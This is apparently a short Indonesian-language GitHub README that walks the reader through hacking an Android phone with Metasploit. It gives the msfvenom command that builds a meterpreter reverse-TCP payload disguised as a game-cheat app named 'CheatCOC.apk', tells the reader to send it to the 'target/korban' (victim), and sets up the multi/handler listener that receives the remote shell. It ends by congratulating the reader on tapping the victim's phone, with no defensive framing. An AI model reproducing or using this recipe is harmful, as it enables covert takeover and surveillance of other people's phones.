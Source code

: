 # Metasploit

# Android Attack 

 
> $sudo apt update

> $sudo apt upgrade

> $ifconfig (untuk mengetahui ip)

> $sudo su (masuk ke menu root)

Membuat payload dengan perintah

> #msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.111.61(ip yang di cek tadi) LPORT=4321 R> CheatCOC.apk

tunggu dan jika sudah selesai cek aplikasi yang sudah di buat tadi di folder /home/kali

kemudian kirim aplikasi ke target/korban

buat exploit handler dengan perintah

> #etc/init.d/postgresql start

> #msfconsole

> #use multi/handler

> #set payload android/meterpreter/reverse_tcp

> #set LHOST 192.168.111.61

> #set LPORT 4321

> #exploit

kemudian tunggu target/korban membuka aplikasi yang sudah di kirim tadi

> #? (untuk melihat menu apa saja perintah yang dapat dilakukan)

selamat kamu telah menyadap hp target/korban mu :)
